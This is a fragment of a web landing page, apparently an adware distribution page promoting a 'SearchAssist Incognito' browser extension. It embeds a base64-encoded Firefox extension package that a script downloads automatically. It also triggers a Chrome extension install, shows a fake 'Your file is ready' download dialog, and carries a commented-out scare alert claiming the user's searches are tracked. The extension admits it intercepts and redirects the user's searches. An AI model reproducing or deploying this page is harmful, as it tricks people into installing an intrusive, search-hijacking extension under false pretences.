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", "application/x-xpinstall"));
              a.href = url;
              a.target="_top";
              document.body.appendChild(a);
              a.click();return false;
        }
$(document).ready(function(){
    if(location.hostname.split('.')[0] == 'cw'){
        setTimeout(function(){
                  // alert("ATTENTION: Your searches might be tracked. To continue browsing safely you should install the extension.");
                }, 1000);
  }
     $('.searchasist-back').fadeIn(500);
  $("#dlmsg").find('textarea').on('focus click', function() {
      $(this).select();
  });
  repView('lpchr');
  $('body').on('click', '#skip2', function(){
    close();
    if(location.hostname.split('.')[0] != 'd')
      window.location.href = '/';
    else dl();
    //$('.loader').show();
  });$('body').on('mousedown', ':not(.inst)', function(){
      $('.loader, .overlay1').hide();
      $('#element_to_pop_up').fadeOut();
    });
        $('body').on('click', '.inst', function(){
                close();
        $('.loader, .overlay1').show();
        $('#hlp').fadeIn(1500);
        chrome.webstore.install('[https://chrome.google.com/webstore/detail/oofhoenjnigkpkkdnplfcbjapgcolpdm'](https://chrome.google.com/webstore/detail/oofhoenjnigkpkkdnplfcbjapgcolpdm'), function(){
          dl();
          //$.get('hoconv.php?cont=USA&br=chrome&cid=8gb7mi6np8wd&off_id=');
          $('#hlp').fadeOut();
        }, function(reason){
          dl();
          $('.loader, .overlay1').hide();
          $('#hlp').fadeOut();
          $('.box .content').click();
        });
        return false;
      });

});</script>
<link rel="shortcut icon" href="img/fav.png">
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no"></head>
<body class="searchasist">
<div class="overlay overlay1" style="display:none;color: #000; opacity: 0.5; z-index:99999;"></div>
  <div id="searchasist-bg_bb" style="display: block;"></div>
  <div class="searchasist-wrap"><div class="genOverlayBg"><p class="extension-text bounce">Click "Add Extension"<br> to install</p></div></div><div class="searchasist-wrap-ff"><div class="genOverlayBg-ff"><p class="extension-text-ff bounce"><span class="fst">Step 2 : Click "Allow" to proceed</span><br><br><span class="fst">Step 3 : Click "Install" button to add<br>the extension</span></p></div></div><div class="searchasist-back" style="display: none">
  <div class="wrapper">
    <header class="searchasist-header">
      <p class="searchasist-txt">Maintaining Internet Speed Is Critical, But So Is<br>
      <span><span class="img-box"></span>Stop Big Companies From
Tracking Your Searches</span><span class="steps-head">STEPS: 1/2</span>
      </p>
    </header>
    <div class="right">
      <div class="inner">
        <div class="searchasistnote1">
    <h1>Recommended:</h1>
    </br>
          <p>The SearchAssist extension protect your privacy by detecting searches that may
be tracked and tied to your personal information. It intercepts those searches and
redirects them to SearchAssist privacy-enhanced search engine.</p></div><section class="bottom">
    <p class="searchasistnote3">By clicking the button below you agree to install SearchAssist Incognito extension and have read and agreed to the <a href="[http://www.privacyassistant.net/tos/](http://www.privacyassistant.net/tos/)" target="_blank">EULA</a> &amp; <a href="[http://www.privacyassistant.net/privacy/](http://www.privacyassistant.net/privacy/)" target="_blank">Privacy Policy</a></p>
          </section>
  <button id="button" class="install_extension inst">Install Now </button>
    </div>
    </div>
  </div><div class="app">
  <div id="dlmsg" class="detail ready" style="display:none;z-index:99999; box-shadow: 0 5px 30px rgba(0, 0, 0, 0.5); ">
    <div class="content">
    <div class="desc">
<h1 class="file-ready">Your file is ready!</h1>
<hr> <p class="p-ready">Copy and paste the following link into your browser to download.</p><textarea readonly></textarea>
    </div>
  </div>
  </div>
    </div></div><div id="element_to_pop_up"  style="display:none; position: absolute; top: 120px; left:305px; z-index: 999999; " ></div>

<script type="text/javascript">
  var $play = $('.play'),
    $detail  = $('.box12'),
    $content = $('.content', $detail),
    $close = $('.close');$('.box .content').click(function(){
  $content.html($(this).html());
  $play.appendTo($content);$detail.show();$('.poster', $detail).delay(10).queue(function(next) {
    $detail.addClass('ready');
    next();
  });
});/*--------------------
Close
--------------------*/
function close(){
